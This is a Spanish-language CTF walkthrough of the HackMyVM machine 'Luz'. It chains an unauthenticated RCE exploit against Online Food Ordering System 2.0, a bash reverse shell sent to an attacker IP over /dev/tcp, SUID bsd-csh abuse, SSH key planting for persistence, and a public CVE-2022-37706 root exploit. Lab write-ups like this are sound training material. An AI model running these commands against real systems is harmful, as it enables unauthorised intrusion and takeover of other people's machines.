


# Luz - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Luz** de la plataforma HackMyVM.  
Durante la explotación tocaremos las siguientes técnicas:

- Escaneo de puertos  
- Online Food Ordering System 2.0 - RCE (Remote Code Execution)  
- Abuso de binarios SUID  
- Escalada de privilegios vía CVE-2022-37706  

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

```bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.161
```

Resultado:

```java
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:9e:28:74:86:8e:d7:5b:bd:96:00:4b:d0:7f:56:e3 (ECDSA)
|   256 fb:3b:fd:9c:9f:4a:7c:8c:1e:a8:27:e2:8d:bf:2b:e5 (ED25519)
80/tcp open  http    syn-ack ttl 64 nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
MAC Address: 08:00:27:E7:42:B1 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 descubrimos que se trata de un sistema llamado **Online Food Ordering System V2**:  


Buscamos información en Google y encontramos que es vulnerable a **RCE** sin ncesidad de autenticación:  


## Explotación

Descargamos el exploit **50305.py** de exploitDB y lo ejecutamos:

```bash
python3 50305.py
```
```bash
               Online Food Ordering System v2.0
            Unauthenticated Remote Code Execution
               Abdullah "hax.3xploit" Khawaja

[+]PHP Shell has been uploaded successfully! 
[+] Successfully connected to webshell.
CD%> whoami
www-data
```

Ya tenemos acceso como **www-data**. Para mejorar la interacción, nos ponemos en escucha y enviamos una reverse shell:

```bash
nc -lvnp 9001
```

En el webshell:

```bash
/bin/bash -c "bash -i >& /dev/tcp/192.168.1.152/9001 0>&1"
```

Recibimos la shell:

```bash
Ncat: Connection from 192.168.1.161
bash: no job control in this shell
www-data@luz:/var/www/html$
```

Dentro de la máquina encontramos la flag de usuario en **/var/www/html**:

```bash
www-data@luz:/var/www/html$ ls
fos  user.txt
```

## Escalada de Privilegios
Vemos los SUID:

```bash
find / -perm -4000 2>/dev/null
```
```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_system
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/bsd-csh
/usr/bin/fusermount3
```

En GTFOBins descubrimos que **/usr/bin/bsd-csh** es explotable con la opción `-b`.  
Esto nos permite cambiar al usuario **aelis**:

```bash
/usr/bin/bsd-csh -b
% whoami
aelis
```

Revisamos el directorio home:

```bash
aelis@luz:~$ ls -la
drwx------ 3 aelis aelis 4096 Aug 25 13:20 .ssh
```

Podemos inyectar nuestra clave pública.

En nuestra máquina:

```bash
ssh-keygen -t ed25519
cat id_rsa.pub
```

Copiamos la clave y en la víctima la guardamos en `.ssh/authorized_keys`.  
Ahora podemos conectarnos directamente:

```bash
ssh aelis@192.168.1.161 -i id_rsa
```

### Escalada final a root

Analizando de nuevo los binarios SUID, encontramos **enlightenment_ckpasswd** vulnerable al **CVE-2022-37706**.

Descargamos un exploit público:

```bash
git clone https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit.git
cd CVE-2022-37706-LPE-exploit
chmod +x exploit.sh
./exploit.sh
```

Salida:

```bash
[*] Trying to pop a root shell!
[+] Enjoy the root shell :)
# whoami
root
```

¡Y somos root! 🎉